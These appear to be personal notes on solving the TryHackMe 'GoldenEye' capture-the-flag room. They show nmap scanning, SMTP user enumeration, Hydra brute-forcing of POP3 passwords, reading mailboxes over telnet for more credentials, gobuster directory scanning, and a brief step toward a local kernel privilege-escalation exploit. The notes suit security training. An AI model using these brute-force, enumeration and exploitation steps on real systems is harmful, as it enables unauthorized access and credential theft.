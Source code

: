 #+TITLE: 007

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.88.210 -p-
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-13 08:00 EST
Nmap scan report for 10.10.88.210
Host is up (0.11s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: STLS AUTH-RESP-CODE UIDL RESP-CODES SASL(PLAIN) USER CAPA TOP PIPELINING
|_ssl-date: TLS randomness does not represent time

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 440.38 seconds

#+end_src

* website
view-source:http://10.10.88.210/terminal.js
- hash
  : &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
  - cracked
    : InvincibleHack3r

#+begin_src js

        var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password.
//My sources say MI6 maybe planning to infiltrate.
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;


  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}

#+end_src

* msf

#+begin_src bash

msf6 auxiliary(scanner/smtp/smtp_enum) > run

        [*] 10.10.88.210:25       - 10.10.88.210:25 Banner: 220 ubuntu GoldentEye SMTP Electronic-Mail agent
        [+] 10.10.88.210:25       - 10.10.88.210:25 Users found: , backup, bin, daemon, games, gnats, irc, libuuid, list, lp, mail, man, messagebus, news, nobody, postfix, postgres, postmaster, proxy, sync, sys, syslog, uucp, www-data
        [*] 10.10.88.210:25       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed

#+end_src

* hydra

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 11:31:22
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: doak   password: goat
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 11:33:46

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 09:31:02
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: boris   password: secret1!
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 09:33:53

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 09:36:34
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: natalya   password: bird
        [STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 09:38:38

#+end_src

* pop3
┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # telnet 10.10.88.137 55007
Trying 10.10.88.137...
Connected to 10.10.88.137.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
                for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
                Message-Id: <20180425034731.97DC24549D@ubuntu>
                Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
                From: doak@ubuntu

                James,
                If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

                Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

                username: dr_doak
                password: 4England!

- more creds
  
  : username: xenia
  : password: RCP90rulez!

- we manage to log in using creds
 : boris

  - LIST
    +OK 3 messages:
    1 544
    2 373
    3 921

- RETR 1
  +OK 544 octets
  Return-Path: <root@127.0.0.1.goldeneye>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with SMTP id D9E47454B1
                  for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
                  Message-Id: <20180425022326.D9E47454B1@ubuntu>
                  Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
                  From: root@127.0.0.1.goldeneye

                  Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.

- RETR 2
  +OK 373 octets
  Return-Path: <natalya@ubuntu>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id C3F2B454B1
                  for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
                  Message-Id: <20180425024249.C3F2B454B1@ubuntu>
                  Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
                  From: natalya@ubuntu

                  Boris, I can break your codes!

- RETR 3
  +OK 921 octets
  Return-Path: <alec@janus.boss>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from janus (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id 4B9F4454B1
                  for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
                  Message-Id: <20180425025235.4B9F4454B1@ubuntu>
                  Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
                  From: alec@janus.boss

                  Boris,

                  Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

                  Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

                  PS - Keep security tight or we will be compromised.

: natalya
- ┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
  └──╼ # telnet 10.10.88.137 55007
  Trying 10.10.88.137...
  Connected to 10.10.88.137.
  Escape character is '^]'.
  +OK GoldenEye POP3 Electronic-Mail System
  user natalya
  +OK
  pass bird
  +OK Logged in.
  LIST
  +OK 2 messages:
  1 631
  2 1048
  .
  RETR 1
  +OK 631 octets
  Return-Path: <root@ubuntu>
  X-Original-To: natalya
  Delivered-To: natalya@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id D5EDA454B1
                  for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
                  Message-Id: <20180425024542.D5EDA454B1@ubuntu>
                  Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
                  From: root@ubuntu

                  Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

                  Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
                  .
                  RETR 2
                  +OK 1048 octets
                  Return-Path: <root@ubuntu>
                  X-Original-To: natalya
                  Delivered-To: natalya@ubuntu
                  Received: from root (localhost [127.0.0.1])
                          by ubuntu (Postfix) with SMTP id 17C96454B1
                                  for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
                                  Message-Id: <20180425031956.17C96454B1@ubuntu>
                                  Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
                                  From: root@ubuntu

                                  Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

                                  Ok, user creds are:

                                  username: xenia
                                  password: RCP90rulez!

                                  Boris verified her as a valid contractor so just create the account ok?

                                  And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
                                  **Make sure to edit your host file since you usually work remote off-network....

                                  Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.

* gobuster

http://severnaya-station.com/gnocertdir/blog/

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # gobuster dir -u http://severnaya-station.com/gnocertdir/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://severnaya-station.com/gnocertdir/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 10:47:52 Starting gobuster
===============================================================
/blog (Status: 301)
/rss (Status: 301)
/login (Status: 301)
/files (Status: 301)
/user (Status: 301)
/calendar (Status: 301)
/admin (Status: 301)
/comment (Status: 301)
/report (Status: 301)
/local (Status: 301)
/pix (Status: 301)
/tag (Status: 301)
/group (Status: 301)
/my (Status: 301)
/install (Status: 301)
/lib (Status: 301)
/portfolio (Status: 301)
/notes (Status: 301)
/message (Status: 301)
/lang (Status: 301)
/theme (Status: 301)
/blocks (Status: 301)
/tags (Status: 200)
/question (Status: 301)
/backup (Status: 301)
/rating (Status: 301)
/filter (Status: 301)
/mod (Status: 301)
/auth (Status: 301)
/course (Status: 301)
/error (Status: 301)
/repository (Status: 301)
/webservice (Status: 301)
/plagiarism (Status: 301)
Progress: 26642 / 87665 (30.39%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/13 10:52:29 Finished
===============================================================

* moodle
Moodle is an open source (webbased) learning
users all over the world in educational inst
companies. See vendor homepage for details.

* creds
- admin
  : xWinter1995x!
* exploit
- uname -a
  : 3.13.0
  - replacing gcc with cc inside the file
    : sed -i "s/gcc/cc/g" 37292.c
https://tryhackme.com/room/goldeneye
- root
  : 568628e0d993b1973adc718237da6e93
